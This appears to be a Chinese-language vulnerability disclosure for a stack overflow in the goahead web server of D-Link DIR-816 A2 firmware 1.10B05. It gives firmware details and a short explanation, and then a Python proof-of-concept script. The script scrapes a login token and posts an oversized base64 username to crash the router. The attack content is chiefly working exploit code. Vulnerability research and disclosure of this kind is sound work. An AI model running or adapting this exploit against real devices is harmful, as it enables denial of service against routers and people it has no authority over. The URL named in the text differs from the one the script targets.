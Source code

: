 ## 固件信息

产品型号：DIR-816 750M11AC

设备硬件版本：A2

固件版本：1.10B05

固件下载地址：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

![image-20210310230637330](https://gitee.com/mrskye/Picbed/raw/master/img/20210310230644.png)

## 漏洞信息

漏洞URL：`http://192.168.0.1/goform/dir_login.asp` 

二进制文件：`squashfs-root/bin/goahead`

大致漏洞地址：`0x004567D4`

形参 Username 通过 websGetVar 从数据包中直接获取，长度为我们所控制。经过 websDecode64 进行解码后放入局部变量 v8 中，造成栈溢出。

![image-20210420002501338](https://gitee.com/mrskye/Picbed/raw/master/img/20210420002509.png)

## POC

```python
# coding=utf-8
import requests
import re
import base64

ip = "192.168.0.1"
payload = base64.b64encode('a'*0x150)
print(len(payload))

print("[+]Get tokenid")
url = "http://{}/dir_login.asp".format(ip)
rsp = requests.get(url)

pattern = re.compile(r'name="tokenid"  value="\d+"')
result = pattern.findall(rsp.text)
tokenid = result[0].split('value="')[-1].strip('"')
print("[+]tokenid:{}".format(tokenid))

url = "http://{}/goform/form2userconfig.cgi".format(ip)
data = {"username": payload, "newpass": '', "tokenid": tokenid}
try:
    requests.post(url, data=data, allow_redirects=False, timeout=1)
except:
    pass
print("[+]DIR816 已崩溃")
```

